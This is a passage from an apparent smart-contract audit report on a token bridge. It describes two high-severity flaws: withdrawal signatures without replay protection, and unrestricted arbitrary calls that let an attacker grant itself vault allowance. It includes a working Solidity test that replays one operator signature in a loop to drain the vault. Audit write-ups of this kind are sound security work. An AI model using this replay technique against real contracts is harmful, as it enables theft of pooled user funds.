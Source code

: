 ### [H-2] Lack of replay protection allows withdrawals by signature to be replayed
**Description:** In `L1BossBridge::withdrawTokensToL1()`, users who want to withdraw tokens from the bridge can call the `sendToL1()` function, or the wrapper `withdrawTokensToL1()` function. These functions require the caller to send along some withdrawal data signed by one of the approved bridge operators.

However, the signatures do not include any kind of replay-protection mechanisn (e.g., nonces). Therefore, valid signatures from any bridge operator can be reused by any attacker to continue executing withdrawals until the vault is completely drained.

**Proof of code:**  As a PoC, include the following test in the `L1TokenBridge.t.sol` file:
```javascript
function testSignatureReplay() public {
    address attacker = makeAddr("attacker");
    address attackerInL2 = makeAddr("attackerInL2");

    uint256 attackerInitBalance = 1e18;
    uint256 vaultInitBalance = 10e18;
    deal(address(token), attacker, attackerInitBalance);
    deal(address(token), address(vault), vaultInitBalance);

    vm.startPrank(attacker);
    token.approve(address(tokenBridge), type(uint256).max);
    tokenBridge.depositTokensToL2(attacker, attackerInL2, attackerInitBalance);

    (uint8 v, bytes32 r, bytes32 s) =
        _signMessage(_getTokenWithdrawalMessage(attacker, attackerInitBalance), operator.key);
    
    while(token.balanceOf(address(vault)) > 0) {
        tokenBridge.withdrawTokensToL1(attacker, attackerInitBalance, v, r, s);
    }

    assert(token.balanceOf(address(vault)) == 0);
    assert(token.balanceOf(attacker) == vaultInitBalance + attackerInitBalance);
}
```

**Recommended Mitigation:** Consider redesigning the withdrawal mechanism so that it includes replay protection.

### [H-3] Allowing arbitrary calls enables users to give themselves infinite allowance of vault funds
**Description:** The L1BossBridge contract includes the sendToL1 function that, if called with a valid signature by an operator, can execute arbitrary low-level calls to any given target. Because there's no restrictions neither on the target nor the calldata, this call could be used by an attacker to execute sensitive contracts of the bridge. For example, the L1Vault contract.

The L1BossBridge contract owns the L1Vault contract. Therefore, an attacker could submit a call that targets the vault and executes is approveTo function, passing an attacker-controlled address to increase its allowance. This would then allow the attacker to completely drain the vault.

It's worth noting that this attack's likelihood depends on the level of sophistication of the off-chain validations implemented by the operators that approve and sign withdrawals. However, we're rating it as a High severity issue because, according to the available documentation, the only validation made by off-chain services is that "the account submitting the withdrawal has first originated a successful deposit in the L1 part of the bridge". As the next PoC shows, such validation is not enough to prevent the attack.
